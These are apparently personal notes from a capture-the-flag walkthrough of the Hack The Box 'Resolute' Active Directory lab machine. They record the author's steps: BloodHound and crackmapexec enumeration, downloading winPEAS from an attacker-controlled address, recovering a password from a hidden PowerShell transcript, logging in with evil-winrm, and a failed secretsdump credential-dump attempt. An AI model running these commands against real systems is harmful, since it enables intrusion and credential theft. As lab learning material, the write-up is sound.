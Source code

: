 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]


